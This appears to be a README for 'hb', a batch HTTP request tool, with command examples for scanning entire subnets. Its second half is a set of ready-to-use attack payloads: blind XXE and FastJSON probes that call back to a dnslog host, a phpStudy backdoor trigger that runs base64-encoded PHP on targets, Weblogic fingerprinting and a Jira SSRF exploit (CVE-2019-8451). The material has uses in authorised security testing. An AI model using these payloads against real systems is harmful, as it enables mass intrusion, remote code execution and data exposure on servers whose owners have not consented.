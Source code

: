 # hb
> Fast http batch request tool 

## Example 

### Load File Target
```
./hb -f ips.txt -p 80
```

### Add HTTP Header
```bash
./hb -host 192.168.1.1/24 -H "Host: bypasscdn"
```

### Show ProgressBar
```bash
./hb -host 192.168.1.1/24 -pg
```

### Follow redirect (30x)
```bash
./hb -host 192.168.1.1/24 -redirect
```

### Filter Response Body
```bash
./hb -host 192.168.1.1/24 -grep "admin"
```

### Filter Response Header (X-Powered-By ContentType Title)
```bash
./hb -host 192.168.1.1/24 -filter "nginx"
```

### Filter Response Status Code
```bash
./hb -host 192.168.1.1/24 -code 2 # 2xx
```

### Show Resposne Body 
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -response
```

### Shuffle Request
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -random
```

### Send Post Request
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -body "a=1&b=2&c=2"

# post body from file
./hb -host 192.168.1.1/24 -p 80,443,8080 -bodyfile ./exploit
```

### Send PUT Request
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -method PUT
```

### Show Request Error
```
./hb -host 192.168.1.1/24 -p 80,443,8080 -debug 
```

---

### Elasticsearch
```bash
./hb -host 192.168.1.1/24 -p 9200 -path "/_cat" -grep "/_cat/allocation"
```

### PHPINF0
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -path /phpinfo.php -code 2 -grep 'PHP Version' -regexp 'PHP Version(.*?)<'
```

### XXE Blind
```bash
./hb -host 192.168.1.1/24 -p 80 -path /xxe.php -body '<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY remote SYSTEM "http://{{hostname}}.dnslog/">]><x>&remote;</x>' -replace
```

### FastJSON Blind
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -H "Content-Type: application/json" -body '{"@type": "java.net.InetAddress", "val":"{{hostname}}.dnslog"}' -replace -redirect
```

### Weblogic fingerprint
```bash
./hb -host 192.168.1.1/24 -host 192.168.1.1/24 -p 80,443,7001 -H "Authorization: Basic" -code 401
```

### phpStudy Backdoor
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -H "Accept-Charset: cGhwaW5mbygpOwo=" -H "Accept-Encoding: gzip,deflate" -regexp '<tr><td class="e">disable_functions</td><td class="v">(.*?)</td>' -redirect
```

### CVE-2019-8451 Jira SSRF
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -path "/plugins/servlet/gadgets/makeRequest?url={{scheme}}://{{host}}@baidu.com/" -H "X-Atlassian-Token: no-check" -replace -grep "www.baidu.com" -regexp '<meta name="ajs-version-number" content="(.*?)">' -redirect
```



